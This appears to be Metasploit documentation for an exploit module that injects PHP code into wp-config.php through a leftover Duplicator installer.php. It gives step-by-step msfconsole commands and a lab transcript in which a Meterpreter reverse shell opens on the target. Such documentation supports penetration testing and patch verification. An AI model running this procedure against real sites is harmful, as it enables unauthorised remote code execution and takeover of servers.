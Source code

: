 ## Vulnerable Application

Duplicator by Snap Creek is a WordPress plugin that can be used to create a complete backup of a WordPress instance and restore it on a fresh server. The export method generates 2 files:
* An ZIP archive with the complete WordPress files and Duplicator specific files:
  * A copy of the `installer.php` script: `installer-backup.php`
  * A SQL script that will be used to restore the database content: `database.sql`
* An installer PHP script to restore the archive `installer.php`

When the `installer.php` completes its process, the following files remain in the directory and has to be manually deleted:
* The ZIP archive
* `database.sql` 
* `installer-backup.php`
* `installer-data.sql` 
* `installer-log.txt`
* `installer.php`

WARNING: exploiting the vulnerability will overwrite the wp-config.php file, breaking the WordPress instance.

Install a vulnerable version of [WordPress Duplicator (<= 1.2.40)](https://downloads.wordpress.org/plugin/duplicator.1.2.40.zip) and create a backup.
Put the `install.php` and archive files on a clean web server.

## Verification Steps

Confirm that functionality works:
1. Start `msfconsole`
2. `use exploit/multi/php/wp_duplicator_code_inject`
3. Set the `RHOST`.
4. Confirm the target is vulnerable: `check`
5. Confirm that the target is vulnerable: `The target is vulnerable.`
6. Set a payload: `set PAYLOAD php/meterpreter/reverse_tcp`
7. Set `LHOST` and `LPORT`
8. Run the exploit: `run`
9. Confirm you have now a meterpreter session

## Options

**TARGETURI**

The path to the installer.php file to exploit By default, the path is `/installer.php`.


## Scenarios

### Debian 9 running WordPress 4.9.8 with Duplicator 1.2.40

```
msf > use exploit/multi/php/wp_duplicator_code_inject
msf exploit(multi/php/wp_duplicator_code_inject) > set rhosts 192.168.37.247
rhosts => 192.168.37.247
msf exploit(multi/php/wp_duplicator_code_inject) > set targeturi /wordpress/installer.php
targeturi => /wordpress/installer.php
msf exploit(multi/php/wp_duplicator_code_inject) > set lhost 192.168.37.1
lhost => 192.168.37.1
msf exploit(multi/php/wp_duplicator_code_inject) > run

[*] Started reverse TCP handler on 192.168.37.1:4444
[*] Checking if the wp-config.php file already exists...
[*] All good! Injecting PHP code in the wp-config.php file...
[*] Requesting wp-config.php to execute the payload...
[*] Sending stage (38247 bytes) to 192.168.37.247
[*] Meterpreter session 1 opened (192.168.37.1:4444 -> 192.168.37.247:1251) at 2018-12-11 11:46:16 -0600
[*] Attempting to recreate wp-config file...
[*] Found archive name 20181127_test_site_126e49aaa44976fa5226181127215223_archive.zip
[*] Successfully created the wp-config.php file!

meterpreter > sysinfo
Computer    : WIN-0FAJA14JLP4
OS          : Windows NT WIN-0FAJA14JLP4 6.1 build 7601 (Windows 7 Enterprise Edition Service Pack 1) i586
Meterpreter : php/windows
meterpreter >
```

